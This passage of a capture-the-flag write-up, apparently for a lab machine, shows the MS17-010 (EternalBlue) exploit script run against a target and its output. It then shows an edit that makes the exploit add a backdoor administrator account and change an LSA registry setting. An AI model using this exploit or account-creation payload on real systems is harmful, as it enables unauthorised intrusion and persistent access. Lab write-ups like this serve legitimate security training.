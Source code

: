 ```shell
┌──(kali㉿kali)-[/opt/MS17-010]
└─$ python2 zzz_exploit.py 10.10.10.4 spoolss               
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x85d54bf8
SESSION: 0xe1088658
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe177f188
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe177f228
overwriting token UserAndGroups
creating file c:\pwned.txt on the target
Done
```

- By examining the exploit script, we can see that's what it says in the script, what it does is just create the file pwned.txt at line 975

![](assets/Legacy_assets/Pasted%20image%2020231111142851.png)

- so coming across the blog post at [https://nullsec.us/eternalblue-on-windows-xp/](https://nullsec.us/eternalblue-on-windows-xp/), we can see that we can edit the script by telling it to add a new user and adding the user to the Administrators group

```python
service_exec(conn, r'cmd /c net user gr4y Password /add')
service_exec(conn, r'cmd /c net localgroup Administrators gr4y /add')
service_exec(conn, r'reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v forceguest /t reg_dword /d 0 /f')
```
